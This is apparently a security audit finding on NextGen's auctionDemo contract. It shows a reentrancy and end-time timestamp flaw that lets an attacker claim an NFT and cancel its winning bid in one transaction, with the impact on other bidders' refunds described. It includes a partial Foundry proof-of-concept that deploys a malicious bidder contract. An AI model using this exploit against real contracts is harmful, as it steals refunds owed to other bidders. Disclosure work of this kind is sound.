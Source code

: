 ```solidity
// auctionDemo.claimAuction L105
require(block.timestamp >= minter.getAuctionEndTime(_tokenid) && auctionClaim[_tokenid] == false && minter.getAuctionStatus(_tokenid) == true);
```

```solidity
// auctionDemo.cancelBid L125
require(block.timestamp <= minter.getAuctionEndTime(_tokenid), "Auction ended");
```

Note that this attack is possible even without the reentrancy — this is just the more efficient path, and it is possibly cheaper as well (if the lower transaction costs adequately offset the cost of deploying the malicious contract, which is more likely to be the case if the attacker intends to exploit more than one auction).

**Impact**

While the auctioning account still gets paid, the last bidder in the array does not get their refund (unless the contract has the funds to cover the attacker's withdrawn bid). If there are multiple auctions happening at the same time, it is also possible that all refunds in the malicious transaction actually succeed, and the problem of the missing funds bubbles up in a later auction. In this scenario, the attack itself might not even be discovered until long after it occurs, if at all, and the attacker is free to continue exploiting vulnerable auctions as they come up.

**Proof of Concept**

```solidity
// Full test can be viewed here: https://gist.github.com/ethanbennett/80d3214274b5572a1b1a11453a46e7eb

contract AuctionReentrancy is NextGenTestBase {
    function test_AuctionReentrancy() external {
        uint256 tokenId;
        address auctioner = 0xd8dA6BF26964aF9D7eEd9e03E53415D37aA96045;

        // mintAndAuction a new erc721 from NextGenMinter
        vm.warp(1699224249);
        tokenId = _core.viewTokensIndexMin(_collectionId) + _core.viewCirSupply(_collectionId);
        _minter.mintAndAuction(auctioner, "", 0, _collectionId, 1699226465);

        // set allowance so _auction can transfer nft to winner
        // note: this functionality is missing from NextGen contracts
        vm.prank(auctioner);
        _core.approve(address(_auction), tokenId);

        // deploy and fund MaliciousBidder (with arbitrary amount)
        MaliciousBidder attacker = new MaliciousBidder(address(_auction), tokenId);
        vm.deal(address(attacker), 1 ether);

        // store the Bidder's balance for testing
        uint256 etherBalanceBefore = address(attacker).balance;
        uint256 nftBalanceBefore = _core.balanceOf(address(attacker));

        // create the high bid from MaliciousBidder
        attacker.bid();

        // set the block.timestamp to exactly the auction's end time.
        // attacker would need to wait for an auction that ends at the same
        // time as a new block.timestamp
        vm.warp(1699226465);

        // claimAuction from MaliciousBidder and cancelBid inside onERC721Received
        attacker.claim();

        // query balances for final testing
        uint256 etherBalanceAfter = address(attacker).balance;
```